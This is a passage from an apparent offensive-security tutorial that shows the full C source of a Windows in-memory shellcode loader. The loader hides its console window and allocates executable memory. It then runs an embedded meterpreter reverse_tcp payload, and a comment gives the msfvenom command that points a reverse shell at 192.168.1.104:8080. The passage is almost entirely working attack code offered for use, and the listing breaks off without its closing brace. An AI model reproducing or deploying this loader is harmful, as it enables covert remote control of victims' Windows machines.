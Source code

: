 Let's move on to creating the shellcode loader now but before that, you'd need to install  MinGW cross-compiler on the Linux box to compile the following C code to a Windows executable and you can do so via:

```
apt-get install mingw-w64
```

Here is the source for the shellcode loader program:

```c
// Filename: payload.cpp
// Author: Upayan a.k.a. slaeryan
// Purpose: This is a x86 Windows shellcode loader to execute the shellcode
// contained in the char array within the memory space of the local process
// (in-memory shellcode execution).
// Usage: Execute payload.exe
// Compile with:
// i686-w64-mingw32-g++ payload.cpp -o payload.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
// Testing: msfvenom -a x86 —platform windows -p windows/exec cmd=calc.exe -f c


#include <windows.h>

int main() 
{
    // To hide the console window
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, SW_HIDE); //SW_SHOWNORMAL = 1 = show, SW_HIDE = 0 = Hide the console
    // Paste your meterpreter/beacon shellcode here
    // msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=8080 -f c
    unsigned char shellcode[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
        "\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x68"
        "\x68\x02\x00\x1f\x90\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
        "\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
        "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
        "\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
        "\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
        "\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
        "\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
        "\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
        "\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
        "\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
        "\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5"; // meterpreter shellcode
    // Allocate memory in the process marked as RWX using VirtualAlloc().
    void *exec = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    // Copy the shellcode into the allocated address space.
    memcpy(exec, shellcode, sizeof(shellcode));
    // Execute the written memory.
    ((void (*)())exec)();
    return 0;
```